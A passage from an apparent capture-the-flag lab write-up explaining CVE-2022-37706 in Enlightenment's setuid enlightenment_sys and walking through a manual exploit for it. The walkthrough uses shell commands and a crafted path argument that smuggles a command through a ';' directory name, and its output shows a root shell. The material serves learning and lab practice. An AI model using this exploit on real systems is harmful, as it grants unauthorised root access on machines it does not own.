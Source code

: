 
The four related to `enlightenment` are interesting. [Enlightenment](https://www.enlightenment.org/) is a Windows manager for the X Windows System. It’s a GUI interface for Linux systems. I already noted above that the home directory looked more like one of a desktop skew rather than a server.

### CVE-2022-37706

#### Background

[CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706) is a vulnerability in:

> enlightenment\_sys in Enlightenment before 0.25.4 allows local users to gain privileges because it is setuid root, and the system library function mishandles pathnames that begin with a /dev/.. substring.

The discoverer of this vulnerability did a really [nice writeup](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) with a POC on GitHub. Basically there’s a place where `enlightenment_sys` calls `system(cmd)`, where `cmd` is a string that includes user input. To get to that point, it must be invoked as `enlightenment_sys mount` with some specific mount options and then a filename. That file name is used to build a string that is passed to `system`, and vulnerable to command injection. The file must also exist.

#### Exploit

There is a nice POC shell script in the repo, but it’s not hard to do manually, and I’ll learn more.

I’ll need two directories to make this work. First, `/tmp/net`, and another that matches my injection. The second one must exist when I pass in something like `/dev/../tmp/;/tmp/0xdf` as an argument. That means I need `/tmp/;/tmp/0xdf` as a directory. That includes a directory named `;`.

```

larissa@boardlight:~$ mkdir /tmp/net
larissa@boardlight:~$ mkdir -p "/tmp/;/tmp/0xdf"
larissa@boardlight:~$ find '/tmp/;' -ls
   524344      4 drwxrwxr-x   3 larissa  larissa      4096 May 31 09:09 /tmp/;
   524345      4 drwxrwxr-x   3 larissa  larissa      4096 May 31 09:09 /tmp/;/tmp
   524346      4 drwxrwxr-x   2 larissa  larissa      4096 May 31 09:09 /tmp/;/tmp/0xdf

```

Now, when the command injection works, it’s going to call `/tmp/0xdf`. So I’ll put a script there that just runs `bash` and make it executable:

```

larissa@boardlight:~$ echo "/bin/bash" > /tmp/0xdf
larissa@boardlight:~$ chmod +x /tmp/0xdf

```

Now I run `enlightenment_sys` to trigger. It will check that `/dev/../tmp/;/tmp/exploit` exists as a directory, and then call `system`, resulting in calling `bash`, which returns to a root shell:

```

larissa@boardlight:~$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/0xdf" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
root@boardlight:/home/larissa#

```
